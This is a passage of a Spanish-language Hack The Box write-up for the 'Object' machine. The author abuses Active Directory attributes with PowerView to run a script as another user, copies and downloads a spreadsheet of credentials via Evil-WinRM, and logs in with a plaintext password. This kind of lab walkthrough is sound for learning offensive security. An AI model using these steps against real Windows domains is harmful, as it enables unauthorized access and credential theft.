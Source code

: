 En este caso, voy a alterar los logon script, para que una vez inicie sesión, se ejecute una tarea programada en un script de Powershell. Pero hay que tener en cuenta que están definidas ciertas reglas de Firewall que impiden las conexiones externas. Pruebo también por ICMP, con ```Invoke-PowerShellIcmp.ps1``` de nishang, pero por alguna razón lo bloquea. Por tanto, solo falta intentar ver lo que tiene en sus directorios, depositando el output en un archivo que pueda leer de mi lado, con la esperanza de encontrar algo que sirva para ganar acceso

```null
*Evil-WinRM* PS C:\Temp> Import-Module .\PowerView.ps1
*Evil-WinRM* PS C:\Temp> echo "dir C:\Users\Maria\Desktop\ > C:\Temp\output.txt" > cmd.ps1
*Evil-WinRM* PS C:\Temp> Set-DomainObject -Identity maria -SET @{serviceprincipalname='C:\Temp\cmd.ps1'}

*Evil-WinRM* PS C:\Temp> type output.txt


    Directory: C:\Users\Maria\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       10/26/2021   8:13 AM           6144 Engines.xls
```

Me traigo el archivo XLS

```null
*Evil-WinRM* PS C:\Temp> echo "copy C:\Users\Maria\Desktop\Engines.xls C:\Temp\Engines.xls" > cmd.ps1
```

Lo descargo para verlo con libreoffice

```null
*Evil-WinRM* PS C:\Temp> download C:\Temp\Engines.xls /home/rubbx/Desktop/HTB/Machines/Object/Engines.xls
Info: Downloading C:\Temp\Engines.xls to /home/rubbx/Desktop/HTB/Machines/Object/Engines.xls

                                                             
Info: Download successful!
```

Contiene credenciales

<img src="/writeups/assets/img/Object-htb/15.png" alt="">

Una de ellas es la suya a nivel de sistema

```null
evil-winrm -i 10.10.11.132 -u 'maria' -p 'W3llcr4ft3d_4cls'

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\maria\Documents> 
```